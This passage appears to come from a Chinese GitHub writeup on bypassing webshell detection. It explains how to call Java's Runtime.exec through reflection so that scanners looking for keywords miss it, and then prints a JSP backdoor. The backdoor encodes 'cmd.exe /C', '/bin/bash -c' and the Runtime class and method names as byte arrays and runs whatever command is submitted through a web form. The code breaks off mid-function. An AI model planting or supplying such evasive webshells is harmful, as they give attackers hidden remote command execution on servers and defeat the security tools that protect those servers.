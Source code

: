 ### 0x04：使用Java反射机制绕过检测

  Runtime类的exec方法在Webshell中用的多了，极易被后门查杀软件检测到，那么就不能用exec函数来执行系统命令了嘛？不然，还可以使用Java反射技术既绕过软件对"Runtime"、"exec"等关键词的检查又使用exec函数来执行系统命令。

在运行时，对于一个类，能够获取这个类的所有属性和方法，对于一个对象，都能够调用它的任意一个方法和属性，这种动态获取信息和动态调用对象方法的功能称为java语言的反射机制。Java反射机制的来龙去脉比较复杂，这里再给出一段简介用来参考：

> Java Reflection makes it possible to inspect classes, interfaces, fields and methods at runtime, without knowing the names of the classes, methods etc. at compile time. It is also possible to instantiate new objects, invoke methods and get/set field values using reflection.

#### 一. 反射Runtime

通过查阅[资料](http://tutorials.jenkov.com/java-reflection/index.html)，可写出利用反射机制调用Runtime类exec方法执行系统命令的一段示例代码：

```java
String op = "";
Class rt = Class.forName("java.lang.Runtime");
Method gr = rt.getMethod("getRuntime");
Method ex = rt.getMethod("exec", String.class);
Process e = (Process) ex.invoke(gr.invoke(null, new Object[]{}),  "cmd /c ping www.baidu.com");
Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A");
op = sc.hasNext() ? sc.next() : op;
sc.close();
System.out.print(op);
```

具体代码含义不浪费篇幅解释了，讲下代码的主要逻辑：

1. 获取Runtime类的Class对象
2. 分别获取Runtime类Class对象的getRuntime方法和exec方法的Method对象
3. 利用getRuntime方法的Method对象，进行invoke调用，获得Runtime对象实例
4. 利用exec方法的Method对象，进行invoke调用，执行系统命令
5. 获取命令执行输出并打印

基于以上代码，然后就可以轻松创造出一个使用Java反射技术，既调用Runtime类exec函数执行系统命令， 又可以免杀的JSP后门了，命名为：[Runtime-reflect-cmd.jsp](https://github.com/LandGrey/webshell-detect-bypass/blob/master/webshell/jsp/Runtime-reflect-cmd.jsp)

```jsp
<%@ page import="java.util.Scanner" pageEncoding="UTF-8" %>
<HTML>
<title>Just For Fun</title>
<BODY>
<H3>Build By LandGrey</H3>

<FORM METHOD=POST ACTION='#'>
    <INPUT name='q' type=text>
    <INPUT type=submit value='Fly'>
</FORM>

<%!
    public static String getPicture(String str) throws Exception{
        String fileSeparator = String.valueOf(java.io.File.separatorChar);
        if(fileSeparator.equals("\\")){
            str = new String(new byte[] {99, 109, 100, 46, 101, 120, 101, 32, 47, 67, 32}) + str;
        }else{
            str =  new String(new byte[] {47, 98, 105, 110, 47, 98, 97, 115, 104, 32, 45, 99, 32}) + str;
        }
        Class rt = Class.forName(new String(new byte[] { 106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101 }));
        Process e = (Process) rt.getMethod(new String(new byte[] { 101, 120, 101, 99 }), String.class).invoke(rt.getMethod(new String(new byte[] { 103, 101, 116, 82, 117, 110, 116, 105, 109, 101 })).invoke(null, new Object[]{}),  new Object[] { str });
        Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A");
        String result = "";
```